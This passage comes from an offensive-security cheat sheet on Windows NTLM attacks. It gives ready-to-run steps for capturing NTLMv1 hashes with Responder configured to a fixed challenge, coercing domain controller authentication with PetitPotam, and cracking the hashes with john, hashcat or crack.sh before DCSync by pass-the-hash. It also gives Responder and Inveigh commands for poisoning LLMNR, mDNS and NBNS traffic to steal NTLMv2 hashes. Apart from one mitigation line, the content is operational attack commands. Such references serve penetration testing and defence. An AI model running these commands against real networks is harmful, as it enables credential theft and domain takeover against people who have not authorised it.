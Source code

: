**Requirements**:
* LmCompatibilityLevel = 0x1: Send LM & NTLM (`reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v lmcompatibilitylevel`)

**Exploitation**:
* Capturing using Responder: Edit the /etc/responder/Responder.conf file to include the magical **1122334455667788** challenge
    ```ps1
    HTTPS = On
    DNS = On
    LDAP = On
    ...
    ; Custom challenge.
    ; Use "Random" for generating a random challenge for each requests (Default)
    Challenge = 1122334455667788
    ```
* Fire Responder: `responder -I eth0 --lm`
* Force a callback:
    ```ps1
    PetitPotam.exe Responder-IP DC-IP # Patched around August 2021
    PetitPotam.py -u Username -p Password -d Domain -dc-ip DC-IP Responder-IP DC-IP # Not patched for authenticated users
    ```
* If you got some `NTLMv1 hashes`, you need to format them to submit them on [crack.sh](https://crack.sh/netntlm/)
    ```ps1
    username::hostname:response:response:challenge -> NTHASH:response
    NTHASH:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972
    ```
* Or crack them with Hashcat / John The Ripper
    ```ps1
    john --format=netntlm hash.txt
    hashcat -m 5500 -a 3 hash.txt
    ```
* Now you can DCSync using the Pass-The-Hash with the DC machine account

:warning: NTLMv1 with SSP(Security Support Provider) changes the server challenge and is not quite ideal for the attack, but it can be used.


**Mitigations**: 

* Set the Lan Manager authentication level to `Send NTLMv2 responses only. Refuse LM & NTLM`

### Capturing and cracking Net-NTLMv2/NTLMv2 hashes

If any user in the network tries to access a machine and mistype the IP or the name, Responder will answer for it and ask for the NTLMv2 hash to access the resource. Responder will poison `LLMNR`, `MDNS` and `NETBIOS` requests on the network.

```powershell
# https://github.com/lgandx/Responder
$ sudo ./Responder.py -I eth0 -wfrd -P -v

# https://github.com/Kevin-Robertson/InveighZero
PS > .\inveighzero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y [-Elevated N]

# https://github.com/EmpireProject/Empire/blob/master/data/module_source/collection/Invoke-Inveigh.ps1
PS > Invoke-Inveigh [-IP '10.10.10.10'] -ConsoleOutput Y -FileOutput Y -NBNS Y –mDNS Y –Proxy Y -MachineAccounts Y
```
